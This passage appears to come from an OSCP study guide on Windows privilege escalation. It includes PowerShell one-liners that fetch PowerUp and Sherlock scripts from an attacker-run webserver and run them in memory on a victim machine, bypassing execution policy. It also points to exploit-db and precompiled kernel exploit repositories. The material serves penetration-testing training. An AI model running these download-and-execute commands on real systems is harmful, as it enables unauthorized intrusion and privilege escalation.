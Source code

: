 https://github.com/six2dez/OSCP-Human-Guide/blob/master/oscp_human_guide.md

# Windows Privlege escalation

 I never got an interactive powershell cmd so I use oneliners.

One-liners for script 4 & 5:
These one-liners download the script from your webserver and run it directly on the victim machine.

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

I always prefer the one-liners, clean and simple, but you might lose your shell after executing it.

II) Manual enumerations:

Step1: Analyze script 1, 3 & 4

I will be listing out the manual process down below but for now these are the best guides I personally found to be very useful to understand what's happening under the hood.

Enumeration 1: http://www.fuzzysecurity.com/tutorials/16.html
Enumeration 2: http://hackingandsecurity.blogspot.in/2017/09/oscp-windows-priviledge-escalation.html
Enumeration 3: https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

III) Kernel exploits:

Analyze script 2 and 5.

Get the exploit-db number and replace it in step1 to get the code and compile it on your own, or once you have the exploit-db number you can directly get the precompiled exploit by using the number in step2.

Exploit Step1)
https://www.exploit-db.com/exploits/"Exploit-db-Number"/

Exploit Step2)
https://github.com/offensive-security/exploit-database-bin-sploits/find/master/" Exploit-db-Number"

Exploit step 3)
https://github.com/abatchy17/WindowsExploits/

So by this time either we have high privilege or we know what is the exact vulnerability to exploit to get our privilege.

http://virgil-cj.blogspot.com/2018/02/escalation-time.html
